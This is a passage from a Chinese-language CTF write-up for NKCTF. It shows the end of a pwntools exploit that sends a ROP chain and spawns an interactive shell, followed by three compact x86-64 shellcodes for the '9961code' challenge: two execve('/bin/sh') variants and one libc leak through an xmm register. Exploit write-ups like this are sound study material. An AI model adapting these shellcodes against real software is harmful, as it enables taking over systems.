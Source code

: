 ```python
    if debug:
        gdb.attach(handle, "b *0x4011ee")
    handle.send(rop.chain())

    #handle.recvuntil('Welcome to the binary world of NKCTF!')
    #payload = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05\x90'
    payload = b'/bin/sh\x00'
    handle.send(payload)

    handle.interactive()
solve(io, False)
```

# 9961code



允许直接写入24字节的shellcode，通常的短shellcode很好构造，但本题由于栈指针指向invalid memory，所以需要通过别的方法写入"/bin/sh"。


```asm
xor rsi,rsi
mul esi
push rax
mov rbx,0x68732f2f6e69622f
push rbx
push rsp
pop rdi
mov al, 59
syscall
```

直接在写入shellcode的地方写入"/bin/sh"是一种方法

```asm
xor rsi, rsi
mul esi
mov edi, 0x996100e
mov al, 59
syscall
"/bin/sh"
```

另外也可以通过xmm寄存器泄露libc基址，使用libc中的"/bin/sh"。

```asm
movq rsp, xmm6
and eax, 1
and edi, eax
push rsp
pop rsi
syscall
xor eax, eax
xor edi, edi
syscall
ret
```
